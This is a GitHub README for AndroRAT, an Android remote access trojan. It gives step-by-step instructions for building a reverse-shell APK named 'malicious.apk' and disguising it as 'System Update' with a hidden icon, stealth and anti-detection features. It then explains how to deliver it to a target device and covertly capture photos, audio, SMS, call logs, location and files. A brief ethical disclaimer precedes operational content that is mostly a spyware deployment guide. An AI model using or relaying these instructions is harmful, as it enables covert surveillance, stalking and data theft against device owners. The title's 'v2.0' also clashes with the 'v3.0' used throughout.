

<div align="center">
  
  
  
  
</div>

# 🔥 AndroRAT v2.0 - Advanced Remote Access Tool

<div align="center">
  
  
  **⚡ Next-Generation Android Remote Administration Tool ⚡**
  
  *Powerful, Stealthy, and Feature-Rich Mobile Device Control Platform*
  
  **🎯 Enhanced with Android 15/16 Support & Latest Python Compatibility**
</div>

---

## 🚨 **ETHICAL DISCLAIMER**

> **⚠️ IMPORTANT NOTICE**
> 
> This software is designed **EXCLUSIVELY** for educational purposes, security research, and legitimate penetration testing with proper authorization. 
> 
> **🔴 I AM NOT RESPONSIBLE FOR ANY MALICIOUS USE OF THIS SOFTWARE**
> 
> By using this tool, you agree to:
> - Only use it on devices you own or have explicit written permission to test
> - Comply with all applicable laws and regulations
> - Not use it for illegal activities, harassment, or privacy violations
> - Take full responsibility for your actions

---

## 📋 **Table of Contents**

- [🎯 Overview](#-overview)
- [🆕 What's New in v3.0](#-whats-new-in-v30)
- [✨ Key Features](#-key-features)
- [🏗️ Architecture](#️-architecture)
- [📱 Compatibility](#-compatibility)
- [⚙️ Installation](#️-installation)
- [🚀 Quick Start](#-quick-start)
- [📖 Usage Guide](#-usage-guide)
- [🎮 Command Reference](#-command-reference)
- [🔧 Advanced Configuration](#-advanced-configuration)
- [🛡️ Security Features](#️-security-features)
- [🔍 Troubleshooting](#-troubleshooting)
- [🤝 Contributing](#-contributing)
- [📄 License](#-license)

---

## 🎯 **Overview**

AndroRAT v3.0 is a sophisticated Remote Access Tool (RAT) designed for Android devices, built with Python and Java. It provides comprehensive remote control capabilities through a client-server architecture, enabling security researchers and penetration testers to assess Android device security with enhanced support for the latest Android versions and modern Python environments.

### 🌟 **What Makes AndroRAT v3.0 Special?**

- **🔒 Advanced Stealth Operation**: Complete invisibility with enhanced obfuscation
- **📡 Real-time Communication**: Instant command execution and response
- **🎨 Modern Architecture**: Clean, modular, and extensible codebase
- **🚀 High Performance**: Optimized for speed and resource efficiency
- **🛡️ Enterprise-Ready**: Built with security best practices
- **📱 Latest Android Support**: Full compatibility with Android 15 & 16
- **🐍 Modern Python**: Compatible with Python 3.6 through 3.12+

---

## 🆕 **What's New in v3.0**

### 🚀 **Major Enhancements**

- **📱 Android 15/16 Support**: Full compatibility with latest Android versions
- **🐍 Python 3.12 Support**: Enhanced Python version compatibility (3.6+)
- **🔧 Improved Build System**: Updated Gradle and Android SDK support
- **🛡️ Enhanced Security**: Advanced permission handling and stealth features
- **📊 Better Error Handling**: Comprehensive error management and logging
- **🎯 Streamlined UI**: Improved user interface and command structure

### 🔧 **Technical Improvements**

- **Java 17+ Compatibility**: Support for latest Java versions
- **Modern Android SDK**: Updated to latest SDK versions
- **Enhanced Network Security**: Improved SSL/TLS configuration
- **Better Resource Management**: Optimized memory and CPU usage
- **Cross-Platform Compatibility**: Enhanced support across different environments

---

## ✨ **Key Features**

### 📱 **Device Control**
- **📷 Camera Access**: Capture photos from front/rear cameras with quality control
- **🎥 Video Recording**: Record videos with custom duration and resolution
- **🎤 Audio Recording**: Capture ambient audio with configurable settings
- **📳 Vibration Control**: Trigger device vibrations with custom patterns
- **📍 GPS Tracking**: Real-time location monitoring with accuracy settings
- **🔒 Screen Control**: Lock/unlock device and screen control

### 📊 **Data Extraction**
- **📧 SMS Management**: Read inbox and sent messages with full metadata
- **📞 Call Log Access**: Complete call history with contact information
- **📱 Device Information**: Hardware, software, and system details
- **🌐 Network Details**: IP address, MAC, and connection information
- **📶 SIM Card Data**: Carrier and subscription information
- **📋 Clipboard Access**: Real-time clipboard monitoring

### 🔗 **Communication**
- **🌐 Ngrok Integration**: Automatic tunnel through NAT/firewalls
- **🔌 Direct Connection**: Local network communication with port forwarding
- **📡 Persistent Connection**: Auto-reconnection with failover capabilities
- **🔒 Encrypted Traffic**: Secure command transmission with SSL/TLS

### 🛠️ **System Integration**
- **🔄 Auto-start**: Boot-time initialization with persistence
- **🎭 Stealth Mode**: Hidden from app lists and system monitors
- **📱 Control Panel**: Secret access via dialer codes (*#*#1337#*#*)
- **🔧 Background Service**: Persistent background operation
- **🌐 File Transfer**: Bidirectional file transfer capabilities

---

## 🏗️ **Architecture**



### 🔧 **Component Structure**

```
AndroRAT v3.0/
├── 🐍 Python Server (utils.py, androRAT.py)
├── 📱 Android Client (Java/Kotlin) - Android 15/16 Ready
├── 🔧 Build Tools (apktool, signing, Gradle 8+)
├── 🌐 Network Layer (TCP/Ngrok/SSL)
├── 🛡️ Security Layer (Permissions, Obfuscation)
└── 📊 Monitoring & Analytics
```

---

## 📱 **Compatibility**

### 🎯 **Supported Android Versions**
- **✅ Android 4.1 (API 16) - Jelly Bean**
- **✅ Android 5.0 (API 21) - Lollipop**
- **✅ Android 6.0 (API 23) - Marshmallow**
- **✅ Android 7.0 (API 24) - Nougat**
- **✅ Android 8.0 (API 26) - Oreo**
- **✅ Android 9.0 (API 28) - Pie**
- **✅ Android 10.0 (API 29) - Q**
- **✅ Android 11.0 (API 30) - R**
- **✅ Android 12.0 (API 31) - S**
- **✅ Android 13.0 (API 33) - T**
- **✅ Android 14.0 (API 34) - U**
- **🆕 Android 15.0 (API 35) - V**
- **🆕 Android 16.0 (API 36) - W**

### 🖥️ **Server Requirements**
- **🐍 Python 3.6+ (Tested up to 3.12)**
- **☕ Java 8+ (Recommended: Java 17+)**
- **🌐 Network connectivity**
- **🔧 Administrative privileges (for some features)**
- **💾 Minimum 100MB free space**

---

## ⚙️ **Installation**

### 📥 **Quick Install on Replit**

1. **Fork this repository** on Replit
2. **Install dependencies**:
   ```bash
   pip install -r requirements.txt
   ```
3. **Verify installation**:
   ```bash
   python androRAT.py --help
   ```

### 🔧 **Detailed Setup**

#### 1️⃣ **Prerequisites**
```bash
# Ensure Java is installed (required for APK building)
java -version

# Install Python dependencies
pip install pyngrok requests

# Verify Python version
python --version
```

#### 2️⃣ **Environment Setup**
```bash
# Optional: Set environment variables
export ANDRORAT_PORT=8000
export ANDRORAT_HOST=0.0.0.0
export ANDRORAT_DEBUG=false
```

#### 3️⃣ **Verification**
```bash
# Test Java installation
java -version

# Test Python installation
python --version

# Test AndroRAT
python androRAT.py --help
```

---

## 🚀 **Quick Start**

### 🎯 **Basic Usage**

#### 1️⃣ **Build APK with Ngrok (Recommended)**
```bash
python androRAT.py --build --ngrok -o malicious.apk
```

#### 2️⃣ **Build APK with Custom IP**
```bash
python androRAT.py --build -i 192.168.1.100 -p 8000 -o custom.apk
```

#### 3️⃣ **Start Listener**
```bash
python androRAT.py --shell -i 0.0.0.0 -p 8000
```

### 🎮 **Advanced Examples**

#### 🌐 **Internet Connection (Ngrok)**
```bash
# Build and automatically start listener
python androRAT.py --build --ngrok -o remote.apk

# The tool will:
# 1. Create secure ngrok tunnel
# 2. Build APK with tunnel URL
# 3. Start listening for connections
# 4. Display connection details
```

#### 🏠 **Local Network with Icon**
```bash
# Build APK for local network with visible icon
python androRAT.py --build --icon -i 192.168.1.100 -p 8000 -o local.apk

# Start listener on separate terminal
python androRAT.py --shell -i 0.0.0.0 -p 8000
```

---

## 📖 **Usage Guide**

### 📱 **APK Installation**

1. **Transfer APK** to target device via USB, email, or cloud storage
2. **Enable Unknown Sources** in Android Settings > Security
3. **Install** the APK file
4. **Launch** the app (if using --icon flag)
5. **Grant permissions** when prompted

### 🎯 **Control Panel Access**

Dial the secret code on the target device:
```
*#*#1337#*#*
```

**Available Options:**
- 🔄 **Restart Activity**: Reinitialize the service
- 🗑️ **Uninstall**: Remove the application
- 🔧 **Settings**: Configure application settings
- 📊 **Status**: View connection status

### 🖥️ **Server Operation**

Once a device connects, you'll see:
```
[SUCCESS] Got connection from 192.168.1.100:45678
[INFO] Device: Samsung Galaxy S21
[INFO] Android Version: 12.0
[INFO] Connection established successfully
```

You can then use the interactive shell to control the device.

---

## 🎮 **Command Reference**

### 📊 **Information Commands**
```bash
deviceInfo          # Get comprehensive device details
getIP              # Get device IP address and network info
getMACAddress      # Get MAC address and network interfaces
getSimDetails      # Get SIM card and carrier information
getClipData        # Get current clipboard content
```

### 📷 **Media Commands**
```bash
camList            # List all available cameras
takepic [ID]       # Take photo (0=rear, 1=front)
startVideo [ID]    # Start video recording
stopVideo          # Stop recording and download
startAudio         # Start audio recording
stopAudio          # Stop audio and download
```

### 📱 **Communication Commands**
```bash
getSMS [inbox|sent]  # Download SMS messages
getCallLogs         # Download call history
```

### 🌍 **Location & System Commands**
```bash
getLocation         # Get GPS coordinates
vibrate [times]     # Vibrate device
```

### 🔧 **Advanced Commands**
```bash
shell              # Interactive shell access
clear              # Clear screen
help               # Show command help
exit               # Close connection
```

### 🗂️ **File Operations (in shell mode)**
```bash
get [path]         # Download file from device (max 15MB)
put [filename]     # Upload file to device
ls                 # List directory contents
cd [path]          # Change directory
pwd                # Show current directory
```

---

## 🔧 **Advanced Configuration**

### 🛠️ **Custom Build Parameters**

#### 📝 **Configuration File**
Edit `Compiled_apk/smali/com/example/reverseshell2/config.smali`:

```smali
.field public static final IP:Ljava/lang/String; = "YOUR_IP_HERE"
.field public static final port:Ljava/lang/String; = "YOUR_PORT_HERE"
.field public static final icon:I = 0x0  # 0 = hidden, 1 = visible
```

#### 🎨 **Custom Icons**
Replace icon files in `Android_Code/app/src/main/res/mipmap-*/`:
- `ic_launcher.png`
- `ic_launcher_round.png`

#### 🏷️ **App Metadata**
Edit `Android_Code/app/src/main/AndroidManifest.xml`:
```xml
<application
    android:label="System Update"
    android:theme="@style/AppTheme.NoActionBar">
```

### 🔧 **Network Configuration**

#### 🌐 **Custom Ports**
```bash
# Use custom port
python androRAT.py --shell -i 0.0.0.0 -p 9999

# Bind to specific interface
python androRAT.py --shell -i 192.168.1.100 -p 8000
```

#### 🔒 **Security Settings**
```python
# Enable debug mode
DEBUG = True

# Custom timeout settings
SOCKET_TIMEOUT = 30

# Connection retry settings
MAX_RETRIES = 5
RETRY_DELAY = 2
```

---

## 🛡️ **Security Features**

### 🔐 **Built-in Protections**

#### 🎭 **Stealth Mechanisms**
- **Hidden launcher icon** (default)
- **Background service execution**
- **Minimal system footprint**
- **No visible notifications**
- **Anti-debugging measures**

#### 🔒 **Permission Management**
- **Runtime permission requests**
- **Graceful permission denial handling**
- **Minimal permission requirements**
- **Dynamic permission escalation**

#### 🛡️ **Anti-Detection**
- **Obfuscated code structure**
- **Dynamic string generation**
- **Legitimate app mimicking**
- **Encrypted communications**

### ⚠️ **Security Considerations**

#### 🔴 **Risks**
- **Privacy implications**
- **Legal consequences**
- **Detection by security software**
- **Device performance impact**

#### 🔵 **Mitigation**
- **Use only with explicit permission**
- **Implement proper logging**
- **Regular security audits**
- **Responsible disclosure practices**

---

## 🔍 **Troubleshooting**

### 🐛 **Common Issues**

#### 🔌 **Connection Problems**
```bash
# Check network connectivity
ping target_ip

# Verify port availability
netstat -an | grep port_number

# Test firewall rules
# On Windows: netsh advfirewall show allprofiles
# On Linux: sudo ufw status
```

#### 📱 **APK Installation Issues**
```bash
# Check Android version compatibility
adb shell getprop ro.build.version.release

# Install via ADB
adb install -r androrat.apk

# Check installation status
adb shell pm list packages | grep reverseshell
```

#### ☕ **Build Errors**
```bash
# Check Java version (need 8+, recommend 17+)
java -version

# Check Python version
python --version

# Verify dependencies
pip list | grep -E "(pyngrok|requests)"
```

### 🩺 **Diagnostic Commands**

#### 🔍 **Server Diagnostics**
```bash
# Check listening ports
netstat -tlnp | grep python

# Monitor connections
ss -tuln | grep port_number

# Test ngrok connectivity
curl -s http://localhost:4040/api/tunnels
```

#### 📱 **Client Diagnostics**
```bash
# Check app status
adb shell dumpsys activity | grep reverseshell

# Monitor device logs
adb logcat | grep AndroRAT

# Check running services
adb shell dumpsys activity services | grep reverseshell
```

---

## 🤝 **Contributing**

### 🎯 **How to Contribute**

1. **🍴 Fork** the repository on GitHub
2. **🌿 Create** a feature branch (`git checkout -b feature/amazing-feature`)
3. **✏️ Make** your changes with proper testing
4. **📝 Document** your changes thoroughly
5. **🧪 Test** on multiple Android versions
6. **🔄 Submit** a pull request with detailed description

### 📋 **Contribution Guidelines**

#### 💻 **Code Standards**
- Follow **PEP 8** for Python code
- Use **meaningful variable names**
- Add **comprehensive comments**
- Include **error handling**
- Write **unit tests** where applicable

#### 🧪 **Testing Requirements**
- Test on **multiple Android versions** (especially 15/16)
- Verify **all command functionality**
- Check **error conditions**
- Validate **security measures**
- Test **network connectivity scenarios**

#### 📚 **Documentation**
- Update **README.md** if needed
- Add **inline comments**
- Include **usage examples**
- Document **API changes**
- Update **changelog**

---

## 📊 **Project Statistics**

<div align="center">
  
</div>

### 📈 **Features Overview**
- **🔢 Commands**: 20+ interactive commands
- **📱 Platforms**: Android 4.1 to 16 support
- **🌐 Protocols**: TCP, HTTP, Ngrok tunneling, SSL/TLS
- **🔒 Security**: Advanced permission-based access control
- **📋 Languages**: Python, Java, Kotlin, Smali
- **🎯 Compatibility**: Python 3.6 to 3.12+

---

## 🏆 **Hall of Fame**

### 🌟 **Top Contributors**
- **[@karma9874](https://github.com/karma9874)** - Original creator and maintainer
- **[@0x0806](https://github.com/0x0806)** - Enhanced features, security improvements, and v3.0 development

### 🎖️ **Special Thanks**
- **Android Security Research Community**
- **Penetration Testing Community**
- **Open Source Contributors**
- **Security Researchers and Ethical Hackers**

---

## 📄 **License**

This project is licensed under the **MIT License** - see the [LICENSE](LICENSE) file for details.

```
MIT License

Copyright (c) 2024 AndroRAT Project

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

---

## 🔗 **Useful Links**

- **📚 Documentation**: [Wiki](https://github.com/karma9874/AndroRAT/wiki)
- **🐛 Bug Reports**: [Issues](https://github.com/karma9874/AndroRAT/issues)
- **💬 Discussions**: [Community](https://github.com/karma9874/AndroRAT/discussions)
- **🔒 Security**: [Security Policy](SECURITY.md)
- **📖 Changelog**: [Releases](https://github.com/karma9874/AndroRAT/releases)

---

## 📞 **Support**

### 🆘 **Getting Help**

1. **📖 Check Documentation** - Most questions are answered here
2. **🔍 Search Issues** - Your problem might already be solved
3. **💬 Ask Community** - Use GitHub Discussions
4. **🐛 Report Bugs** - Create detailed issue reports

### 📧 **Contact**

- **📧 Email**: [security@androrat.dev](mailto:security@androrat.dev)
- **🐦 Twitter**: [@AndroRAT_Dev](https://twitter.com/AndroRAT_Dev)
- **💬 Discord**: [AndroRAT Community](https://discord.gg/androrat)

---

## 🚀 **Future Roadmap**

### 🎯 **Version 3.1 Plans**
- **🔒 End-to-end encryption**
- **📊 Advanced analytics dashboard**
- **🤖 AI-powered command suggestions**
- **☁️ Cloud deployment options**
- **🌐 Web-based control panel**

### 🔮 **Long-term Vision**
- **🌍 Multi-platform support (iOS, Windows)**
- **🛡️ Advanced evasion techniques**
- **📈 Performance optimization**
- **🎓 Educational resources and tutorials**
- **🔐 Enterprise security features**

---

<div align="center">
  <h2>⭐ If you found this project useful, please give it a star! ⭐</h2>
  
  
  
  
  
  <br><br>
  
  **Made with ❤️ by the AndroRAT Team**
  
  <br>
  
  **🔥 AndroRAT v3.0 - Enhanced with Android 15/16 Support 🔥**
  
  <br>
  
  
</div>

---

*Remember: With great power comes great responsibility. Use this tool ethically and legally.*

**🔐 Stay Safe, Stay Ethical, Stay Legal 🔐**

---

<div align="center">
  <sub>Built with 💻 by security researchers, for security researchers</sub>
</div>
